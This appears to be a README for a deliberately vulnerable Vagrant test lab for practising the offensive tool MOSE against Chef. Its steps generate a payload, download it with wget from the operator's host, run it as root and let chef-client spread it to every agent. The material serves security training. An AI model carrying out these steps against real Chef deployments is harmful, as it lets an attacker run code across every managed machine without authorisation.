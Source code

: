 # chef-test-lab
Create test lab which can be used to play around with MOSE and Chef.

**Warning, take heed: This lab should be run in a controlled environment, as it contains vulnerable assets.

## Dependencies
You must download and install the following for this environment to work:
* [Vagrant](https://www.vagrantup.com/downloads.html)

## Lab Build Instructions
To create an environment with a Chef Workstation and a Chef Server that controls multiple agents, run the following command:
```
make build && make run
```
To run MOSE against the chef workstation:
1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef`
3. Login to the chef workstation: `vagrant ssh chef_workstation` (the password is vagrant)
4. Escalate to root with ```sudo su```
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Run the payload: `chmod +x chef-linux; ./chef-linux`
7. Wait for 30 minutes or exec into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant)
	7a. Escalate to root with ```sudo su```
	7b. Run ```chef-client```
8. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

To run MOSE against the chef server:

To tear down the test environment, run the following command:
```
make destroy
```
